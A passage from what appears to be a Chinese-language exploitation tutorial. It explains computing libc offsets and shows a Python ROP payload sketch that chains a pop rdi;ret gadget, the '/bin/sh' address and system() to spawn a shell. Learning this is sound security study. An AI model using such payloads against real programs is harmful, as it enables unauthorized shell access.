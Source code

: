 <img src="https://raw.githubusercontent.com/Pryriat/blog_backup/master/Image/stack_learn/image-20200814103435776.png" alt="image-20200814103435776" style="zoom:40%;" />

有了`libc`基址就可以通过固定偏移计算`system`函数的地址和`/bin/sh`字符串的位置，然后如前面劫持调用`puts`一样构造`system('/bin/sh')`调用，利用思路如下：

```python
payload  = 'A'*0x10v #=> stack
payload += p64(0xdeadbeef) # => RBP
payload += p64(0x400713) # => RIP 
payload += addr_of('/bin/sh')# => RDI
payload += addr_of_system() # => RIP => system('/bin/sh')
```

程序执行`pop rdi;ret`指令后，控制流信息如图，即将执行`system('/bin/sh')`流程：

